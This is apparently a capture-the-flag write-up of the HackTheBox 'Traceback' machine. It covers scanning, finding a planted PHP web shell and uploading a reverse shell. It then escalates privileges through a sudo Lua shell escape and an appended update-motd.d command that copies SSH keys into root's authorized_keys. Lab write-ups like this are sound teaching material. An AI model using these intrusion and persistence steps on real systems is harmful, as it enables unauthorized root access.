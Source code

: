 ```yaml
---
title: "HackTheBox - Traceback"
author: Nasrallah
description: ""
date: 2022-09-05 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, sudo]
img_path: /assets/img/hackthebox/machines/traceback
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Traceback](https://app.hackthebox.com/machines/Traceback) from [HackTheBox](https://www.hackthebox.com). The machine is running an Apache web server which has been hacked and the hacker put a backdoor allowing us to get a reverse shell as `webadmin` user. This user is able to run a tool called `luvit` which executes `Lua` as `sysadmin`. The user `sysadmin` has write permissions to update-motd.d scripts that get executed every time someone logs to the system, so we exploit that to escalate our privileges to root.

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.10.181
Host is up (7.5s latency).
Not shown: 795 closed tcp ports (reset), 203 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Help us
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found two open ports, port 22 running OpenSSH and port 80 running Apache web server.

## Web

Let's go to the webpage.

![](1.png)

The web server has been hacked and defaced. There is a note from the hacker saying that he left a backdoor. The hacker's name is `Xh4H`.

Viewing the source code we find the following comment. `Some of the best web shells that you might need ;)`. No idea what that means.

Let's run a directory scan.

```terminal
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.181
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/08/31 06:13:23 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 291]
/.htpasswd            (Status: 403) [Size: 296]
/.htaccess            (Status: 403) [Size: 296]
/index.html           (Status: 200) [Size: 1113]
/server-status        (Status: 403) [Size: 300] 
===============================================================
```

Nothing really interesting.

If we search for the hacker's name, we find that he has a [github account](https://github.com/Xh4H/), looking at his repositories we find the following [repository](https://github.com/Xh4H/Web-Shells).

![](2.png)

It's bunch of web-shells, scrolling down we find this.

![](3.png)

Aha! It's the same note we find in the webpage's source code.

The backdoor he left should be one of those php files in the repository. Let's see if any of those file are in the web-server.

![](4.png)

We found the backdoor. Looking at the source code of the backdoor we can find the username and password, so let's login.

![](5.png)

Here we see that we can execute commands, upload files and much much more. 


# **Foothold**

I decided to upload this [reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

After that i setup a listener and requested the file.

![](6.png)

After getting a shell, i stabilized it using python pty; 


# **Privilege Escalation**

Let's check our privileges with `sudo -l`.

![](7.png)

There is a file called `luvit` that we can run as user `sysadmin`. There is a note.txt file in webadmin's home directory.

![](8.png)

So `luvit` must be the tool sysadmin left to practice lua. Let's check [GTFOBins](https://gtfobins.github.io/gtfobins/lua/#shell).

![](9.png)

We can run the command `os.execute("/bin/bash")` to get a shell.

Let's run the luvit command as sysadmin with `sudo -u sysadmin /home/sysadmin/luvit`, and then run `os.execute("/bin/bash")` after that.

![](10.png)

We got sysadmin.

I uploaded linpeas.sh and run it, and it found the following.

![](11.png)

The directory **/etc/update-motd.d** is writeable by the sysadmin group.

The scripts inside this directory are executed by root each time a user logs into the machine.

First, let's put our public key in the authorized_keys file inside .ssh directory so that we can log in with ssh.

![](12.png)

Next i added the following command to `10-help-text` script.

```bash
cp /home/sysadmin/.ssh/authorized_keys /root/.ssh/
```

>This command copies our public key and put it in root's ssh directory.

```terminal
sysadmin@traceback:/etc/update-motd.d$ echo "cp /home/sysadmin/.ssh/authorized_keys /root/.ssh/" >> 10-help-text
```

Now let's login to sysadmin via ssh and then root.

![](13.png)

Great! We got a root shell.


---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).